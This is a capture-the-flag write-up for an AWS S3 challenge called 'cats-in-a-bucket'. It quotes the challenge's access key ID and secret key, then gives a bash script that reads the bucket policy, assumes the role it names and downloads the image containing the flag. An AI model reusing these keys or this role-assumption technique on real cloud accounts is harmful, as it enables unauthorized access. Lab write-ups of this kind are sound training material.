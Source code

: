 # Challenge
There is a bucket full of cat images. One of them contains a flag. Go get it!

Bucket: cats-in-a-bucket

Access Key ID: AKIATZ2X44NMCEQW46PL

Secret Access Key: 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

## Solution

Don't even ask. I'm not well versed in AWS and did it googling a lot. So I'm writing this down just so I can come back copy something when I need it.

```bash
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
export AWS_ACCESS_KEY_ID=AKIATZ2X44NMCEQW46PL
export AWS_SECRET_ACCESS_KEY=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

role=$(aws s3api get-bucket-policy --bucket cats-in-a-bucket | \
       jq '.Policy' | \
       tr -d '\\' | \
       sed 's/^"//g;s/"$//g' | \
       jq -r '.Statement[] | select(.Resource == "arn:aws:s3:::cats-in-a-bucket/cat4.jpg") | .Principal.AWS')

output=$(aws sts assume-role --role-arn $role --role-session-name "MySession");
export AWS_ACCESS_KEY_ID=$(jq -r '.Credentials.AccessKeyId' <<< $output);
export AWS_SECRET_ACCESS_KEY=$(jq -r '.Credentials.SecretAccessKey' <<< $output);
export AWS_SESSION_TOKEN=$(jq -r '.Credentials.SessionToken' <<< $output); 
echo $AWS_SECRET_ACCESS_KEY,$AWS_SESSION_TOKEN,$AWS_ACCESS_KEY_ID;
aws sts get-caller-identity;
aws s3 cp s3://cats-in-a-bucket/cat4.jpg cat4.jpg
```

The flag was written in the image.
